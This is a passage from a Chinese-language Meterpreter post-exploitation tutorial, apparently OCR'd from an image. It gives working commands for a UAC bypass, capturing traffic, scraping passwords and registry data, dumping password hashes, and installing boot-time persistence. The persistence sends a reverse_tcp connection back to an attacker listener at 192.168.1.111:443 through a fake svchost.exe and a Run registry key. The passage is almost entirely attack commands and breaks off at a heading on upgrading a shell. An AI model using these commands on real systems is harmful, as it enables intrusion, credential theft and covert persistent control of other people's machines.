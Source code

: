 ```
run post/windows/escalate/bypassuac  ，不然可能不会成功。）
```

获取系统流量数据

```
meterpreter> run packtrecorder –i 1
```


直捣黄龙

可以干很多事情：获取密码，下载注册表，获取系统信息等

```
meterpreter> run scraper
```

持久保持

当目标机器重启之后仍然可以控制

```
meterpreter> run persistence –X –i 50 –p 443 –r 192.168.1.111
```

-X 开机启动  -i连接超时时间 –p端口 –rIP

下次连接时：

```
msf> use multi/handler
set payload windows/meterpreter/reverse_tcp
set LPOST 443
set LHOST 192.168.1.111
exploit
```

(会在以下位置和注册表以随机文件名写入文件等信息，如：

C:\Users\YourtUserName\AppData\Local\Temp\MXIxVNCy.vbs

C:\Users\YourtUserName\AppData\Local\Temp\radF871B.tmp\svchost.exe

HKLM\Software\Microsoft\Windows\CurrentVersion\Run\DjMzwzCDaoIcgNP)


POST整合模块

可实现同时多个session操作

例子：获取hash

```
meterpreter> run post/windows/gather/hashdump
```

其他还有很多，使用TAB键补全看下就知道

### 5、升级command shell

例子：
